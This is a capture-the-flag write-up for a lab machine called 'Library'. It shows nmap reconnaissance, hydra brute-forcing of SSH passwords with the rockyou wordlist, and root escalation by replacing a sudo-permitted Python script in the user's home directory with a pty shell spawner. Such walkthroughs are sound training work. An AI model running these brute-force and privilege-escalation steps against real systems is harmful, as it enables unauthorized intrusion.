


# Library

## Description

Read user.txt and root.txt

## Challenge

1. user.txt

`nmap -sV -sC -A 10.10.45.75`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
```

`http://10.10.45.75/robots.txt`



Enumerate users




Brute passwords

`hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.10.45.75` - no luck

`hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.45.75`

```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-04-05 02:17:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.45.75:22/
[22][ssh] host: 10.10.45.75   login: meliodas   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 6 final worker threads did not complete until end.
[ERROR] 6 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
```

Connect to server

`ssh meliodas@10.10.45.75`
```
The authenticity of host '10.10.45.75 (10.10.45.75)' can't be established.
ECDSA key fingerprint is SHA256:sKxkgmnt79RkNN7Tn25FLA0EHcu3yil858DSdzrX4Dc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.45.75' (ECDSA) to the list of known hosts.
meliodas@10.10.45.75's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Aug 24 14:51:01 2019 from 192.168.15.118
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ cat user.txt
```

2. root.txt

Check our priveleges

`sudo -l`
```
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

`cat bak.py`
```
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Unlucky we can't modify bak.py


BUT! It's our directory and we can remove it and create new file with same name

```
meliodas@ubuntu:~$ rm -f bak.py
meliodas@ubuntu:~$ cat > bak.py << EOF
> 
> #!/usr/bin/env python
> 
> import pty
> 
> pty.spawn("/bin/bash")
> 
> EOF
meliodas@ubuntu:~$ sudo /usr/bin/python3 /home/meliodas/bak.py

root@ubuntu:~# cat /root/root.txt
```